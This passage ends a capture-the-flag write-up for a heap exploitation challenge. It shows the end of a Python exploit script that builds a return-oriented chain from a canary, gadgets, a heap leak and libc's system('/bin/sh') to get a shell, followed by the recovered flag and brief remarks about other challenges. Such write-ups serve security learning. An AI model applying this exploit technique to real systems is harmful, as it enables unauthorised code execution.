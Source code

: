 ```python
    0x0, canary,
    0xdeadbeef,
    pop_rsi_r15_rbp, 0x100000000, heap_leak + 0x1910, 0x1,
    pop_rdi, next(libc.search(b"/bin/sh\x00")), 
    ret, libc.sym.system
)
add(code, 0x60, payload)

p.interactive() # grey{m4573r_0f_7r335_4nd_h34p}
```

This challenge was a lot of fun because of how different not having tcache made things (despite having a really simple
vuln). I still don't know how AVL trees work tho...

## Other challs

I also solved `IP Cam`, and `Malware` together with scuffed (actually they did most of the reversing, I just helped a
little with the libc and decrypting the flag). I'm too lazy to write writeups for them (especially `IP Cam` since I
don't have access to the camera anymore), but still cool challs nonetheless!
